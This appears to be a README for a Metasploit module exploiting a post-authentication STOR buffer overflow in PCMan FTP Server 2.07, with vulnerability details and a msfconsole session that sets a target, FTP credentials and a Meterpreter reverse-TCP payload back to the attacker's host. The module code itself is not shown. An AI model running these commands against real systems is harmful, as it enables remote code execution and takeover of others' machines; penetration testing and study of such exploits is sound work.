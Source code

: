 # Metasploit Module – PCMan FTP Server Post-Authentication 'STOR' Stack Buffer Overflow

## 📅 Date
June 27, 2013

## ✍️ Authors
- **Christian (Polunchis) Ramirez** — Initial Discovery ([https://intlabs.ca](https://intlabs.ca))
- **Rick (nanotechz9l) Flores** — Metasploit Module Developer

**Contacts:**  
- polunchis@intlabs.ca

## 📦 Software Information
- **Affected Software:** PCMan FTP Server 2.07
- **Vulnerability Type:** Post-Authentication Stack-Based Buffer Overflow
- **Attack Type:** Remote Code Execution (RCE)

## 🖥️ Tested On
- Windows XP SP3 (English)

## 🛡️ Vulnerability Description
A **buffer overflow vulnerability** exists in **PCMan FTP Server 2.07** within the handling of the `STOR` FTP command when combined with a `/../` path traversal sequence.

By sending a specially crafted `STOR` request **after successful authentication**, an attacker can **overwrite the Instruction Pointer (EIP)** and execute arbitrary code.

The overflow is triggered by the FTP server mishandling long input passed to the `STOR` command.  
**Authentication is required** but can be easily achieved with valid credentials.

## ⚙️ Exploitation Details
- **Port:** 21/TCP (FTP)
- **Vulnerable Command:** `STOR /../<payload>`
- **Authentication:** ✅ Required (any valid FTP credentials)
- **Impact:** Remote Code Execution (RCE)
- **Bypass Techniques:** No ASLR/DEP on XP SP3 targets
- **Special Notes:** Overflow payload is visible in the FTP server log console.

## 🛠️ Metasploit Usage

```bash
msf6 > use exploit/windows/ftp/pcman_stor
msf6 exploit(windows/ftp/pcman_stor) > set RHOSTS <target-ip>
msf6 exploit(windows/ftp/pcman_stor) > set RPORT 21
msf6 exploit(windows/ftp/pcman_stor) > set FTPUSER <username>
msf6 exploit(windows/ftp/pcman_stor) > set FTPPASS <password>
msf6 exploit(windows/ftp/pcman_stor) > set PAYLOAD windows/meterpreter/reverse_tcp
msf6 exploit(windows/ftp/pcman_stor) > set LHOST <your-ip>
msf6 exploit(windows/ftp/pcman_stor) > exploit
